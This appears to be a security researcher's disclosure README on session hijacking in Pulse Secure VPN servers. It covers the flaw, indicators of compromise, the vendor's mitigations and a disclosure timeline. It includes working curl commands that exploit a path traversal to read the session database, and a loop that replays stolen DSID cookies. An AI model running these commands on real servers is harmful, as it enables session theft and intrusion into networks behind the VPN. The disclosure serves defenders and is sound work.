


Session hijacking in PulseSecure Server
=======================================
Depending on the configuration, all versions are affected including latest release 9.0R3.4.

See the vendor's response for the gory configuration details.


Disclaimer
----------
**Please note that on a fully patched Pulse server this vulnerability is not exploitable by itself and is only useful under very specific circumstances.**
For this exploit to work the endpoint needs to have been previously compromised. A good candidate for this first step is CVE-2019-11510 that permits arbitrary file reading on the server before 9.0R3.4. **For later versions, another exploit is missing.**

This vulnerability could be related to CVE-2019-11540, which is inconsistently detailed:

* the researcher lists it as a [cross-site script inclusion on the cookie](https://devco.re/blog/2019/09/02/attacking-ssl-vpn-part-3-the-golden-Pulse-Secure-ssl-vpn-rce-chain-with-Twitter-as-case-study/)
* the CVE DB refers to it as a [session bypass](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-11540)


Details
-------
There are several ways to authenticate to a Pulse Connect Secure server:

* traditional user/password authentication
* using a certificate (usually safely stored on a hardware token)

Assuming an attacker has read access to the server (e.g. using CVE-2019-11510 or some other form of arbitrary file read that may or may not be discovered in the future) and user/password login is in place, the attacker just needs to read plaintext passwords or hashes from the system and reuse these to authenticate semit-legitimely to the server. These passwords are found in the various data.mdb files of the Pulse server.

When using certificate authentication (or if the hashes couldn't be cracked) there's an alternate way that lets an attacker log to the appliance.
Because Pulse is a SSL VPN, the users' sessions are stored in a cookie named DSID that is granted by the server after the client authenticates.

An attacker getting access to valid cookies can try to reuse them to authenticate to web server and find all current valid sessions on the HTTP service:
```bash
curl --path-as-is -s -k "https://example.com/dana-na/../dana/html5acc/guacamole/../../../../../../../data/runtime/mtmp/lmdb/randomVal/data.mdb?/dana/html5acc/guacamole/" > randomVal_data.mdb
for cookie in $(strings randomVal_data.mdb | grep randomVal | cut -b 10- | grep '.\{32\}' | sort -u); do curl -i -k "https://example.com/" --cookie "DSID=$cookie" -L 2>&1 | grep Welcome; done
```

The cookie is reusable for a web session hijacking:



But more worryingly, from this HTTP service the attacker can then try to connect to the VPN using the Java client:



This action is likely going to fail, because the user whose session is getting hijacked is probably already connected to the network.
But I have observed that if the client keepalive sent every second fails to reach the server (for instance due to a network timeout or the operating system going to sleep) the attacker may then hijack the user's network session and connect to the network behind the VPN.

I have successfully tested it in versions 9.0R3.2 and 9.0R3.4 which supposedly fixed a session hijacking vulnerability (CVE-2019-11540).

I think this is a security issue:

* sessions should be tied to an IP address, or at least to a subnet
* sessions should be forcibly closed by the server if the client keep-alive fails

This vulnerability hence permits hardware token bypass on an otherwise hardened setup that the arbitrary file read alone couldn't have completely defeated.


Indicators of compromise
------------------------
These actions from the attacker will likely leave a lot of discriminating failure logs because the attacker can not tell if the user's session has timed out yet and needs to repeatedly try to hijack the session until it works.

In case of a failure to connect:
```
    "[yy.yy.yy.yy] xxx - Remote address for user xxx changed from yy.yy.yy.yy to zz.zz.zz.zz"
    "[zz.zz.zz.zz] xxx - Closed connection to TUN-VPN port 443 after 1 seconds, with 0 bytes read (in 1 chunk) and 0 bytes written (in 2 chunks)"         // fails because user is still connected
```

In case of a successful connection:
```
    "[yy.yy.yy.yy] xxx - Remote address for user xxx changed from yy.yy.yy.yy to zz.zz.zz.zz"
    "[zz.zz.zz.zz] xxx - Max session timeout for xxxx (session:00000000)."
    "[zz.zz.zz.zz] xxx - Closed connection to TUN-VPN port 443 after 121 seconds, with 1420 bytes read (in 1 chunk) and 575 bytes written (in 3 chunks)"  // hijack has succeeded until the session timed out server-side (2 minutes)
```


Editor response
---------------
Below is the vendor's response, which is quite satisfactory: they are aware of the problem, and have rolled configuration options to prevent it.

That being said you do have to make sure your appliance is properly configured because as far as I can tell these are not used by default, at least not when upgrading the appliance from earlier versions.

> [...]
> We have made few improvement in our latest code and this issue can be mitigated with few configuration change.
> 
> 1. In the 9.0R3 or above, a new HTTPOnly session cookie option is available. This option will create a new session cookie with HTTPOnly attribute along with DSID session cookie. The new session cookie along with DSID will be needed to restore a user session.
> 
> In this case, attacker cannot replay the session even if they fetch the cookies from the appliance.
> 
> KB16127 - HTTPOnly and the Pulse Connect Secure (QID: 150045)
> https://kb.pulsesecure.net/articles/Pulse_Secure_Article/KB16127/
> 
> 2. We always recommend our customers to disable to Session Roaming option under the User Role. That will restrict the access to the attacker and they cannot login to the appliance.
> 
> KB29805 - Pulse Connect Secure: Security configuration best practices
> https://kb.pulsesecure.net/articles/Pulse_Secure_Article/KB29805/
> 
> 3. When the client does not communicate with the PCS, it will not immediately disconnect the session. After an ESP tunnel has been created, it will send keep-alive packets to the Pulse Connect Secure device to confirm that the device is accessible through ESP mode. If an ESP response is received, the Pulse or Network Connect client continues operating on the assumption that the ESP tunnel was successfully created. If the ESP tunnel is not successfully created, the client will send a keep-alive packet every one (1) second until the "ESP to SSL fallback time" is exceeded (by default, it is 15 seconds). When this time is exceeded, the Pulse or Network Connect client will fail back to SSL mode.
> 
> You can refer below KB for more details.
> 
> KB26667 - Encapsulating Security Payload (ESP) packet flow with Network Connect or Pulse client
> https://kb.pulsesecure.net/articles/Pulse_Secure_Article/KB26667/


Notes on the setup
------------------
Because Java plugin support has been dropped from browsers ages ago, getting a setup that could run the plugin was a bit painful. Here is most of the needed information to replicate it:
```
gquere@debian:~/Téléchargements$ cat /etc/debian_version
9.11
gquere@debian:~/Téléchargements$ md5sum google-chrome-stable_34.0.1847.137-1_amd64.deb
3cc7cd28bbb7bb3e5add19f27a6d0dda  google-chrome-stable_34.0.1847.137-1_amd64.deb
gquere@debian:~/Téléchargements$ md5sum libnss3_3.17.2-1.1+deb8u1_amd64.deb
4e459cf3591adc568d804f3369036938  libnss3_3.17.2-1.1+deb8u1_amd64.deb
gquere@debian:~/Téléchargements$ export LD_LIBRARY_PATH=./libnss/usr/lib/x86_64-linux-gnu/:./libnss/usr/lib/x86_64-linux-gnu/nss
gquere@debian:~/Téléchargements$ google-chrome-stable
```


Timeline
--------

* 2019-09-06: Vulnerability discovered
* 2019-09-09: Editor receives report
* 2019-09-17: Request ACK from editor
* 2019-10-15: Editor warned of imminent disclosure
* 2019-10-15: Partial disclosure to CERT-FR
* 2019-10-22: Editor ACK
* 2019-10-23: Editor answer
